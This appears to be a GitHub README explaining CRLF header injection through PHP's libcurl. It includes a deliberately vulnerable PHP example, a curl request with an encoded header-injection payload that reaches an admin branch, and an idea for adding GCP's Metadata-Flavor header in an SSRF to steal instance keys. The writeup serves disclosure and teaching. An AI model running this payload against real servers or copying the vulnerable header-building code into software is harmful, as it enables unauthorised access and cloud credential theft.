


# Description

This repository aims to describe a CRLF (Carriage Return Line Feed) that exist in the `libcurl` of PHP source code.

[Here](https://owasp.org/www-community/vulnerabilities/CRLF_Injection) you can found the owasp description of a CRLF.

# The vulnerability

A CRLF is a vulnerability that allows a remote (potentially non-authenticate) attacker to inject some headers inside an HTTP request.

In the PHP libcurl library, developers can put several options, such as the method, headers, ...

It's not improbable that a developer recover some parameters from the user to put them inside headers as values.

# Example of vulnerable code

Let's imagine the following infrastructure :



The PHP application contains the following code :

```php
<?php
if(isset($_GET["API_KEY"]))
{
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, "http://api.internal.corp/");
    $headers = [
        "X-Header1: custom_header",
        "X-API-KEY: ".$_GET["API_KEY"]
    ];

    curl_setopt($ch, CURLOPT_HTTPHEADER, $headers);
    $data = curl_exec($ch);

    if (curl_errno($ch)) {

        die('Error:' . curl_error($ch));
    }

    curl_close($ch);
    return $data;
}
else
{
    die("Missing API_KEY parameter.");
}
```

The internal API contains the following code :

```php
<?php
if(isset($_SERVER["HTTP_X_ADMIN_HEADER"]))
{
    echo "welcome back admin !";
}
else
{
    if(isset($_SERVER["HTTP_X_API_KEY"]))
    {
        if(verify_api_key($_SERVER["HTTP_X_API_KEY"])) //this method does not exist but let's imagine..
        {
            echo "welcome standard user !";
            //do the rest of code..
        }
        else
        {
            echo "invalid api key !";
            //do the rest of code..
        }
    }
    else
    {
        die("Missing X-API-KEY header");
    }
}
```

Let's do a regular and legit request to the server :

```bash
$> curl http://external.corp/api/v3/verify_key?API_KEY=my_key
welcome standard user 
```

Here everything is normal, there isn't any weird response.

Note that in the script, I've haven't specify the header "X-ADMIN-HEADER", therefore, we (normally) aren't able to reach the message `welcome back admin !`.

But now, if we inject a CRLF :

```bash
$> curl http://external.corp/api/v3/verify_key?API_KEY=%0D%0AX-ADMIN-HEADER:%20a
welcome back admin
```

If we listen with netcat, the internal server, with the payload, is receiving the following HTTP request :



We have inject our header !

# Is it useful ?

You might be thinking now that this is a really CTF thing, injecting headers, get the admin panel, ...

But if we take a real world example of an SSRF (Server Side Request Forgery) inside a GCP instances.

Inside GCP, if you want to reach (the famous) ip that contains metadata of the current instances, you have to specify a header called `Metadata-Flavor`. In fact, Google have put this security to prevent SSRF to 169.254.169.254.

But with our injection, (and if it's possible), we can inject this header, and reach the metadata server of a specific GCP instance, recover the keys, ...

# Disclaimer

This vulnerability exist since years, I don't want to appropriate the work of others. In fact, it have already been documented, i'm just releasing this github repository because i've found the vulnerability myself.